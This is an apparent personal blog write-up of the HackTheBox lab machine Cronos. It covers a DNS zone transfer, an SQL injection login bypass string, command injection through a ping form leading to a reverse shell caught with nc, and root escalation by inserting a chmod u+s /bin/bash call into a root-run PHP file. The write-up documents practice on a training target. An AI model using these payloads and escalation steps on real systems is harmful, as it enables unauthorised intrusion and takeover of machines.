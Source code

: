 ```yaml
---
title: "Cronos"
date: 2023-06-26T12:51:31+02:00
tags: ["linux","lfi","procmon","artisan"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Cronos.png
description: "This write-up will be about the HackTheBox machine called Cronos. "
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "A linux room that is vulnerable a remote code execution throw url."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Cronos
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Cronos

![Untitled](/HTB/Cronos.png)

## Tools Used

- Nmap
- procmon.sh
- digg
- nslookup

## Port Scanning

Other room, other port scan.

![Untitled](/HTB/nmap-cronos.png)

I found 3 open ports, 53(dns's), 80(web), 22(ssh). Let's focus on the website and the dns.

## Enumeration

The only enumeration I done is dns enumeration, with `nslookup` and `dig axfr cronos.htb @10.10.10.13`

![Untitled](/HTB/nslookup-cronos.png)

![Untitled](/HTB/dig-cronos.png)


## Exploiting

The first thing I did, was putting the dns's in the /etc/hosts and access the website `http://admin.cronos.htb`,
and I saw a login page :)

![Untitled](/HTB/web-cronos.png) 

I tried the first combinations I always do and surprise, I pass it with a simple sql injection `admin'or 1=1-- -`...

The web is so incredible, there are two options, the first consist to send a ping to a ip where you can put
whatever you want, and de second option consist at the same but using traceroute ... 

So I first tried to send mi a ping and receive it with `tcpdump -i tun0 icmp -n` and I received it :). Next step
is to send me a reverse shell:

![Untitled](/HTB/burpsuite-cronos.png)

and listening on my pc

```bash
 nc -nlvp 443
```
![Untitled](/HTB/ww-data-cronos.png)

The machine is pawned !!

## TTY Treatment

```bash
 cd /dev/shm
 touch procmon.sh 
 chmod +x procmon.sh
 nano procmon.sh 
```

## Gaining an Initial Foothold

We are in now inside, with a user called **www-data**

- Usual commands I always do:
	
	```bash
	 sudo -l
	 cat /etc/crontab
	 find / -perm -4000 2>/dev/null
	 find / -type -d -writable
	 bash procmon.sh
	 lsb_release -a
	 uname -a
	 id
	 getcap -r / 2>/dev/null
	 ...
	```
Code of procmon.sh:

```bash
 #!/bin/bash

 old_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')

 while true; do
        new_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>]" | grep -vE "procmon|awk|kworker"
        old_process=$new_process
 done

```

Using **procmon.sh** and **find / -type -d -writable** I found that user root
is running **/var/www/larevel/artisan**, which is a program in php, and we have 
write/read permissions. So let's modify them to include this:

```bash
 <?php
	system("chmod u+s /bin/bash");
 ?>
```
Then, I did `bash -p`, and I'm root !!

![Untitled](/HTB/root-cronos.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about cron tasks, using procmon.sh
    
- Were there any novel tools or techniques employed?
    
    The use of procmon.sh it's not new but I improve my privilege escalation metods I think.
